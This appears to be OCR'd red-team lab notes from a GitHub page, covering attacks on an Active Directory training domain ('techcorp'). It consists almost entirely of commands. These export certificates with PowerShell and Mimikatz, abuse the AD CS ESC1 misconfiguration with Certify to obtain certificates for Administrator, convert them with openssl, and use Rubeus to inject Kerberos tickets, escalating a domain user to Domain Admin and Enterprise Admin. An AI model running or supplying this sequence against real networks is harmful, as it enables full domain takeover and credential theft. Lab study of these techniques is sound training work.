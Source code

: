     # Export the certificate in PFX format
    ls cert:\LocalMachine\My\89C1171F6810A6725A47DB8D572537D736D4FF17 | Export-PfxCertificate -FilePath C:\Users\Public\pawadmin.pfx -Password (ConvertTo-SecureString -String 'niks' -Force -AsPlainText)

    # Use Mimikatz to export certificate in pfx format (default cert pass is mimikatz)
    Invoke-mimikatz -Command "crypto::certificates /export"
    Invoke-mimikatz -Command "!crypto::certificates /systemstore:local_machine /export"
    cat cert.pfx | base64 -w 0
    C:\AD\Tools\Rubeus.exe asktgt /user:nlamb /certificate:MNeg[...]IH0A== /password:mimikatz /nowrap /ptt

    >> Escalation (ESC-1) : Domain User to Domain Admin and Enterprise Admin 

    CASE I: Domain Admin

    # Request certificate for DA user using ESC1 technique, and save it as cert.pem
    Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

    # Convert cert.pem to cert.pfx format
    C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

    # Request TGT using pfx cerificate and inject into memory
    Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:niks /nowrap /ptt

    CASE II: Enterprise Admin

    # Request certificate for EA user using ESC1 technique
    Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

    # Convert cert.pem to cert.pfx format
    C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx

    # Request TGT using pfx cerificate and inject into memory
    Rubeus.exe asktgt /user:techcorp.local\Administrator
    /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:niks /nowrap /ptt

    ```
